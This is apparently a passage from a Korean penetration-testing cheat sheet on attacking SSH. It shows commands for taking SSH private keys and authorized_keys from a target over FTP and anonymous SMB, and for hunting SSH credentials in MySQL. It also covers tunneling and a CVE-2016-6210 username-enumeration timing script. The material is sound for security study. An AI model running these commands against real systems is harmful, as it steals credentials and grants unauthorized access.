 ### 📁 FTP와 연계

```bash
# FTP에서 SSH 키 다운로드
ftp {IP}
get /home/user/.ssh/id_rsa
quit
chmod 600 id_rsa
ssh -i id_rsa user@{IP}

# FTP에서 SSH 설정 파일 확인
get /etc/ssh/sshd_config
```

### 🗂️ SMB와 연계

```bash
# SMB에서 SSH 관련 파일 확인
smbclient //{IP}/home$ -N
get user/.ssh/id_rsa
get user/.ssh/authorized_keys

# SMB에서 얻은 크레덴셜로 SSH 접근
ssh domain\\user@{IP}
```

### 🗄️ 데이터베이스와 연계

```bash
# 데이터베이스에서 SSH 크레덴셜 확인
mysql -h {IP} -u root -p
SELECT * FROM users WHERE username LIKE '%ssh%';

# SSH를 통한 데이터베이스 터널링
ssh -L 3306:localhost:3306 user@{IP}
mysql -h localhost -P 3306 -u root -p
```

---

## 🎯 SSH 취약점별 공격

### 🐛 OpenSSH 7.4 - Username Enumeration

```bash
# CVE-2016-6210 사용자 열거
python ssh_user_enum.py {IP} -U users.txt

# 타이밍 공격 스크립트
#!/bin/bash
for user in $(cat users.txt); do
    time_start=$(date +%s%N)
    timeout 5 ssh $user@{IP} 2>/dev/null
    time_end=$(date +%s%N)
    echo "$user: $((($time_end - $time_start)/1000000)) ms"
done
```
